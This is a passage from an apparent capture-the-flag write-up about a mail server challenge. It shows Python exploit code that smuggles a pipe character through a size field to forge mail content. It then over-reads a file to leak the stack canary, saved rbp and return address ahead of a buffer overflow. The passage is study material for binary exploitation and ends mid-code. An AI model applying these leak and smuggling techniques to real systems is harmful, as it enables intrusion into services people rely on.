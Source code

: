 No, not if there just isn't much data there. If there's only one byte left in the file and you ask to read 1000, the read will just only read one byte. The mail client will then dump 1000 bytes.

All that's left is to somehow control the mail content. This isn't too hard though.
* SET file path to /tmp/evil
* use NEW to write custom mail content to /tmp/evil
* SET file path to /home/mailserver/data/day
* use NEW to write subject\|/tmp/evil
* Now we have mail with custom data!

Wait... no. We can't use new to write a pipe character, because all of the fifo API data is being sent through the subject. And the subject, remember, can't include pipes.

Well, now what? We can't instead simply edit the existing content path because the filename is unpredictable.

Recall that we aren't writing just the subject to update.event. We're writing subject + "\|" + content_path. We've been ignoring that but, it'll now become important.

What if our subject was NEW001, for example? The API would receive `NEW001|/tmp/...`, the only relevant parts being `NEW001|`. It would then write a pipe to the file.

Let's instead have the subject be NEW006PWNED. The API would receive `NEW006PWNED|`(since "PWNED" is 5 bytes, it would read the next byte as well, the pipe character). This let's us write a pipe character after the data we want! Afterwards, we simply use ATE to append the rest.

```python
def custom_mail(username, data, size=None):
    if size is None:
        size = len(data)
    if type(data) == str:
        data = data.encode()
    # Build a custom email
    send_event(build_packet(b"SET", b"/tmp/evil"))
    send_event(build_packet(b"NEW", str(size).zfill(4).encode() + data))
    send_event(build_packet(b"SET", f"/home/mailserver/data/{username}".encode()))
    send_event(build_packet(b"NEW", b"pwned",len("pwned") + 1)) # smuggle the pipe in since it will be after the subject and we cant put it in the subject manually
    send_event(build_packet(b"ATE", b"/tmp/evil"))
```

Sure enough, setting a size as high as 0x1000, we get lots and lots of leaks. After the buffer will be the canary, then the saved rbp, then the return address(giving binary base leak) and eventually `__libc_start_main_ret`. From there, it's trivial to extract the necessary information!


NOTE: The code in comments was what I used to enumerate the stack data. Sometimes the leaks fail for reasons I don't know, likely a null byte randomly occuring somewhere. We can restart easily.
```python
custom_mail(username, b"", size=0x10000) # Very high size despite not putting much in the file. This makes it over print, so we can get leaks before exploiting the BOF.

_, leaks = read()
if leaks == b'':
    log.failure("Leaks failed.")
    quit()
log.success("Leaks suceeded")

old_buf = leaks
leaks = leaks[0x808:]

canary = u64(leaks[:8])
log.info(f"Canary: {hex(canary)}")
"""
for i in range(8, len(leaks), 8):
    num = u64(leaks[i:i+8].ljust(8, b"\x00"))
    if num == 0:
        continue
    print(hex(num), i)
```